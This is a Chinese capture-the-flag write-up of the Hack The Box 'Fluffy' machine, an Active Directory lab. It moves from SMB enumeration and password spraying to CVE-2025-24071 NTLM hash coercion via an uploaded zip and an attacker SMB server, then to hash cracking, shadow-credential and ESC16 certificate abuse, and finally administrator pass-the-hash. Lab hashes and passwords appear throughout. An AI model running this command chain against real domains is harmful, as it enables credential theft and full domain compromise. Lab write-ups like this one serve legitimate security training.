# [HTB] 靶机学习 Fluffy-先知社区

> **来源**: https://xz.aliyun.com/news/18153  
> **文章ID**: 18153

---

```
Machine Information

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!
```

## 端口扫描

```
nmap -sV -sC 10.10.11.69
```

```
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-05-28 14:53:03Z)
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-28T14:54:00+00:00; +6h38m48s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
636/tcp  open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-28T14:53:59+00:00; +6h38m48s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  globalcatLDAPssl?
|_ssl-date: 2025-05-28T14:53:59+00:00; +6h38m48s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

把域控和域名添加到hosts文件

尝试evil-winrm登录，没成功

```
evil-winrm -u j.fleischman -p J0elTHEM4n1990! -i 10.10.11.69
```

## smb枚举目录

```
crackmapexec smb 10.10.11.69 -u j.fleischman -p J0elTHEM4n1990! --shares
```



## 枚举smb用户

```
crackmapexec smb 10.10.11.69 -u j.fleischman -p J0elTHEM4n1990! --rid-brute
```

  
把用户都写到users.txt中

```
crackmapexec smb 10.10.11.69 -u j.fleischman -p J0elTHEM4n1990! --rid-brute | grep "SidTypeUser" | awk -F '\' '{print $2}' | awk '{print $1}' > users.txt
```



## 密码喷洒

也没有成功

```
netexec ldap 10.10.11.69 -d fluffy.htb -u users.txt -p 'J0elTHEM4n1990!'
```



```
netexec ldap 10.10.11.69 -d fluffy.htb -u users.txt -p 'J0elTHEM4n1990!' -k
```



## smb目录深入收集信息

```
smbclient //10.10.11.69/IT -U fluffy.htb/j.fleischman%J0elTHEM4n1990!
```

  
思路还是回到smb上，对于IT目录有读写的权限，找到一个pdf文件，打开发现是IT部门的升级公告，要求对于2025年新出现的一些漏洞，进行升级和打补丁



## CVE-2025-24071

### 漏洞描述

Windwos 的文件资源管理器（Explorer.exe）信任基于XML格式 .library-ms 文件。.library-ms文件被压缩在RAR/ZIP 文件后解压时，文件资源管理器会立即自动处理，解析该文件的内容，以渲染适当的图标、缩略图或元数据信息。

如果攻击者提供的.library-ms文件中包含一个标签，直接指向攻击者控制的SMB服务器，如图所示：



Windows 资源管理器会自动尝试解析该 SMB 路径（192.168.1.116\shared），以获取元数据和索引文件信息。这一操作会触发受害者系统向攻击者控制的 SMB 服务器发起隐式的 NTLM 认证握手。因此，受害者的 NTLMv2 哈希会在无需用户显式交互的情况下被发送出去。

### 获取p.agila用户的NTLM v2 哈希

发现了CVE-2025-24071似乎可用，因为用户对IT目录有写权限  
<https://github.com/0x6rss/CVE-2025-24071_PoC/>

```
python poc.py
```



上传zip到IT目录

```
impacket-smbclient j.fleischman@10.10.11.69 
use IT
put /home/kali/htb/Fluffy/CVE-2025-24071_PoC/exploit.zip
```

开启smb客户端

```
impacket-smbserver shared -smb2support ./ 
```



smb客户端收到p.agila用户的NTLM v2 哈希

```
p.agila::FLUFFY:aaaaaaaaaaaaaaaa:6e0444129e8a48d26b16f600688f1d4a:010100000000000080b3335af0cfdb0117c54a5acaf4fca7000000000100100072006c0068007000750066004f0047000300100072006c0068007000750066004f00470002001000790079006d0073004200590063007a0004001000790079006d0073004200590063007a000700080080b3335af0cfdb01060004000200000008003000300000000000000001000000002000000d84fd1d2cef7b2c65a709d456d7beba70dcd8de1dd23826c1703a36f602cc700a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000
```



## bloodhound域信息收集

```
sudo bloodhound-python -u j.fleischman -p J0elTHEM4n1990! -k -d fluffy.htb --zip -c All -dc dc01.fluffy.htb -ns 10.10.11.69 --dns-tcp
```



启动bloodhound,上传zip

```
ELECTRON_DISABLE_GPU=true ./BloodHound --disable-gpu --disable-software-rasterizer --in-process-gpu
```

发现SERVICE ACCOUNT MANAGENERS组对SERVICE ACCOUNT 组有Generic All 权限,而SERVICE ACCOUNT 组对winrm\_svc有generic write权限



## 哈希爆破



```
john --fork=10  hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

得到密码`prometheusx-303`  


## 将p.agila用户添加到SERVICE ACCOUNT组

```
bloodyAD -d fluffy.htb -u p.agila -p 'prometheusx-303' --dc-ip 10.10.11.69 add groupMember 'SERVICE ACCOUNTS' p.agila
```



## 影子攻击

### 寻找CA证书服务器

```
certipy-ad find -u p.agila -p prometheusx-303 -dc-ip 10.10.11.69
```



### 查看winrm用户msDS-KeyCredentialLink是否存在

```
bloodyAD -d fluffy.htb -u p.agila -p 'prometheusx-303' --dc-ip 10.10.11.69 get writable --detail 
```



### 获取winrm\_svc用户 NTLM hash

得到hash,`33bd09dcd697600edf6b3a7af4875767`,用evil-winrm登录在桌面拿到第一个flag

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'winrm_svc' -target dc01.fluffy.htb -dc-ip 10.10.11.69
```



### 获取ca\_svc用户 NTLM hash

得到hash,`ca0f4f9e9eb8a092addf53bb03fc98c8`

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'ca_svc' -target dc01.fluffy.htb -dc-ip 10.10.11.69
```



## 枚举可用的证书

因为ca\_svc用户是证书的管理者，看看也没有有漏洞的模板

```
certipy-ad find -username ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -vulnerable
```

## ESC16攻击

```
certipy-ad account -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -upn 'administrator' -user 'ca_svc' update

certipy-ad account -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user 'ca_svc' read

certipy-ad req -dc-ip '10.10.11.69' -u 'administrator' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

certipy-ad account -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -upn 'winrm_svc' -user 'ca_svc' update

certipy-ad auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.10.11.69
```

然后就能拿到administrator的NTLM Hash,evil-winrm登录拿到第二个flag

```
aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```



```
evil-winrm -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e -i 10.10.11.69
```


